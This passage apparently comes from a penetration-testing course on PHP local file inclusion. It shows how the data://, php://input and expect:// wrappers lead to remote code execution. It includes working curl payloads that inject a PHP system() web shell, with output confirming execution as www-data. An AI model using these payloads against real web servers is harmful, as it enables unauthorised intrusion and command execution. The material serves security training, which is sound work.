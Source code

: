 Now, we can URL encode the base64 string, and then pass it to the data wrapper with `data://text/plain;base64,`. Finally, we can use pass commands to the web shell with `&cmd=<COMMAND>`:

   

![Shipping containers and cranes at a port with a PHP notice about an undefined variable.](https://academy.hackthebox.com/storage/modules/23/data_wrapper_id.png)

We may also use cURL for the same attack, as follows:

  PHP Wrappers

```shell-session
ShibuShivansh@htb[/htb]$ curl -s 'http://<SERVER_IP>:<PORT>/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8%2BCg%3D%3D&cmd=id' | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

---

## Input

Similar to the `data` wrapper, the [input](https://www.php.net/manual/en/wrappers.php.php) wrapper can be used to include external input and execute PHP code. The difference between it and the `data` wrapper is that we pass our input to the `input` wrapper as a POST request's data. So, the vulnerable parameter must accept POST requests for this attack to work. Finally, the `input` wrapper also depends on the `allow_url_include` setting, as mentioned earlier.

To repeat our earlier attack but with the `input` wrapper, we can send a POST request to the vulnerable URL and add our web shell as POST data. To execute a command, we would pass it as a GET parameter, as we did in our previous attack:

  PHP Wrappers

```shell-session
ShibuShivansh@htb[/htb]$ curl -s -X POST --data '<?php system($_GET["cmd"]); ?>' "http://<SERVER_IP>:<PORT>/index.php?language=php://input&cmd=id" | grep uid
            uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

**Note:** To pass our command as a GET request, we need the vulnerable function to also accept GET request (i.e. use `$_REQUEST`). If it only accepts POST requests, then we can put our command directly in our PHP code, instead of a dynamic web shell (e.g. `<\?php system('id')?>`)

---

## Expect

Finally, we may utilize the [expect](https://www.php.net/manual/en/wrappers.expect.php) wrapper, which allows us to directly run commands through URL streams. Expect works very similarly to the web shells we've used earlier, but don't need to provide a web shell, as it is designed to execute commands.

However, expect is an external wrapper, so it needs to be manually installed and enabled on the back-end server, though some web apps rely on it for their core functionality, so we may find it in specific cases. We can determine whether it is installed on the back-end server just like we did with `allow_url_include` earlier, but we'd `grep` for `expect` instead, and if it is installed and enabled we'd get the following:
